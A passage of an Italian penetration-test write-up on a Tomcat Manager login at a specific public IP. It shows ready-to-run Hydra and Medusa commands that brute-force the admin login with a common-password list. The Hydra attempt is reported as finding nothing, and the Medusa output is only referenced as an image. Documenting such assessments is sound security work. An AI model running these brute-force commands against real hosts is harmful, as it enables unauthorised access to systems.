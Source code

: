 /manager/html/undeploy

Abbiamo cercato di accedere a queste directory con l'autenticazione richiesta, ma ci siamo imbattuti in un errore 401 Unauthorized.


### 4. **Prova di Brute Force per l'Accesso al Manager di Tomcat con Hydra** 


#### Comando:
```bash
hydra -l admin -P credentials.txt http-get-form "http://15.161.94.124:8080/manager/html:username=^USER^&password=^PASS^:F=incorrect"
```


***analisi***:

Abbiamo utilizzato Hydra per tentare un attacco di forza bruta sulle credenziali di accesso al Manager di Tomcat utilizzando un file contenente username e password comuni.

non ho ottenuto risultati


### 5. **Scansione di Credenziali con Medusa** 


#### Comando:
```bash
medusa -h 15.161.94.124 -u admin -P credentials.txt -M http -m "GET /manager/html" -f "incorrect" -t 4
```

<img src="../immagini/14medusa.png" alt="Logo" width="700"/>

